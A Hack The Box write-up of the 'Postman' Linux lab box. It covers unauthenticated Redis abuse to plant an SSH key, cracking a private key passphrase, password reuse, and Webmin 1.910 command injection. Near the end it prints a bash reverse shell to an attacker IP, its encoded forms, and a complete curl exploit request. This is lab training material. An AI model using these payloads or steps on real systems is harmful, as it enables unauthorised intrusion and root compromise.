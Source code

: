 ```yaml
---
layout: post
title:  "HTB Writeup [Linux - Easy] - Postman"
published: false
---
```


![](/assets/Postman/Postman.png)

## Summary
- Postman is an easy Linux box where we find a misconfigured Redis instance that allows for access without authentication.
- We exploit that to write our public SSH key into Redis' own `authorized_keys` file which gets us on the machine as the `redis` user.
- While browsing the file system, we come across a passphrase-protected backup of a private SSH key belonging to a user called `Matt`.
- Using `ssh2john` and `john`, we're able to crack that key's passphrase. However, using SSH didn't work.
- Because `Matt` was reusing the password, we used `su` to switch to his user from the shell we had.
- Trying to escalate our privileges, we found webmin running as `root`. And we also found its version (1.910) vulnerable.
- The vulnerability could lead to Remote Code Exection if we had valid credentials for a user with access to install package updates.
- We tested `Matt`'s credentials that we previously found and were able to authenticate successfully. we also had the necessary privileges.
- We owned the box using both Metasploit and also using `curl` after taking some time to observe and manually recreate the exploit.

---

## NMAP
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Cyber Geek's Personal Website
|_http-server-header: Apache/2.4.29 (Ubuntu)
6379/tcp  open  redis   Redis key-value store 
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.910
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The `nmap` shows a standard SSH port as well as HTTP on port 80.
What's unique here is Redis on port 6379 and Webmin on port 10000.

## Testing Redis and Exploiting Misconfiguration for RCE
Because it can lead to a very quick RCE if not configured with authentication, we try Redis first.

we can connect to it with a simple command:
```bash
redis-cli -h 10.10.10.160
```

Note: you can install the `redis-cli` tool using `apt install redis-tools`

after connecting, we get a prompt. so we run the `info` as a basic command to check if we have access or not.

![](/assets/Postman/redis-info.jpg)

and we do!

This is great because we can now try to write an SSH key to gain access.

This method is explained [here](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh)

since `/var/lib/redis/.ssh` is the default SSH directory for Redis, we will attempt to add our own public key to the remote `authorized_keys` file.

we first generate our key pair using `ssh-keygen`

![](/assets/Postman/ssh-keygen.jpg)

then echo the public key (wrapped around double new lines) into `redis-cli` with the `-x` flag to take input from STDIN

and proceed with the same steps as described.

![](/assets/Postman/redis-adding-the-public-key.jpg)

Note: for a breakdown of what each command does, you can refer to the [official command documentation](https://redis.io/commands/).

having recieved the expected responses, we go ahead and try connecting with the `redis` user:

![](/assets/Postman/redis-ssh-success.jpg)

we're good to go :D

## Pivoting to Matt
After getting on the box, and while checking the file system, we visit the `/opt` directory (since it may contain interesting files).

we have a finding there:

![](/assets/Postman/pivot-finding-matts-backup-key.jpg)

it seems like a passphrase-protected backup of `Matt`'s private SSH key.

to crack it, we're going to use `ssh2john`

![](/assets/Postman/pivot-cracking-matts-key.jpg)

sucessfully cracked! we should be able to SSH now.

![](/assets/Postman/pivot-cant-ssh-as-matt.jpg)

we couldn't. the next we tried was to use `su` from within.

![](/assets/Postman/pivot-su-matt.jpg)

that worked.

## Exploiting Webmin for Privilege Escalation
From the `nmap` scan, we notice that Webmin's version is 1.910.

and, because its process is running as `root`, we know we should check this out:

![](/assets/Postman/privesc-webmin-running-as-root.jpg)

when Googling for exploits, we get plenty of results:

![](/assets/Postman/privesc-webmin-exploit-search.jpg)

We decide to check the [Exploit-DB version](https://www.exploit-db.com/exploits/46984)

being a verified Metasploit Module, we can expect a well-written exploit :)

from its description, this seems like it requires a valid user:

![](/assets/Postman/privesc-webmin-exploit-requirements.jpg)

after visiting port 10000 from outside, we redirected to HTTPs and the hostname changes to postman.

when we try logging in as `Matt` using the same password `computer2008`, we get authenticated.

![](/assets/Postman/privesc-webmin-logged-in.jpg)

furthermore, we seem to have the needed privilege. we can confirm by clicking the link highlighted above.

![](/assets/Postman/privesc-webmin-package-privilege.jpg)

### The Quick and Easy Way: Metasploit
After setting:
- `RHOSTS`
- `USERNAME` and `PASSWORD`
- `SSL` to `true`
- `LHOST` and `LPORT`

we get an easy shell as `root`

![](/assets/Postman/privesc-webmin-metasploit.jpg)

### A Bit More Manual
Looking at the exploit code, we find six functions defined:
1. `initialize`: sets up the module's information
2. `peer`: seems to adjust the url based on whether it's http or https to be later used in the `Referer` header
3. `login`: self-descriptive :) logs in and retrieves the `sid` cookie
4. `check`: this one too, it's checking if the version is indeed the vulnerable one (1.910) and if our user has the privilege to update packages
5. `exploit`: this method performs the login action and then calls the the `run_update` method below.
6. `run_update`: performs a POST request adding both the `sid` cookie and the `Referer` header. It then uses a base64-encoded payload for execution demonstrated below:

![](/assets/Postman/privesc-webmin-b64-payload.jpg)

we're going to replace that with a bash reverse shell payload:

```bash
bash -i >& /dev/tcp/10.10.16.9/9000 0>&1
```

and then encode it as base64 to be:

```bash
bash -c "{echo,'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45LzkwMDAgMD4mMQ=='}|{base64,-d}|{bash,-i}"
```

then finally URL-encoding it to be part of the POST data:

```
bash%20-c%20%22%7Becho%2C%27YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi45LzkwMDAgMD4mMQ%3D%3D%27%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22
```

to exploit, we're going to first grab our `sid` cookie. (The extension used here is called "Cookie Editor")

![](/assets/Postman/privesc-webmin-sid-cookie.jpg)


then create our own `curl` variant of the exploit:

```bash
curl -k -s -o /dev/null \
-X POST \
-b "sid=2d2cc255b41d67cb4dc38ef0dbfb2ad7" \
-d "u=acl%2Fapt&u=%20%7C%20bash%20-c%20%22%7Becho%2C%27YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi45LzkwMDAgMD4mMQ%3D%3D%27%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22&ok_top=Update+Selected+Packages" \
-H "Referer: https://10.10.10.160:10000/package-updates/update.cgi?xnavigation=1" \
https://10.10.10.160:10000/package-updates/update.cgi
```

after starting our `netcat` listener, we issue the command and get back a sweet reverse shell:

![](/assets/Postman/privesc-webmin-curl.jpg)

Pretty nice :)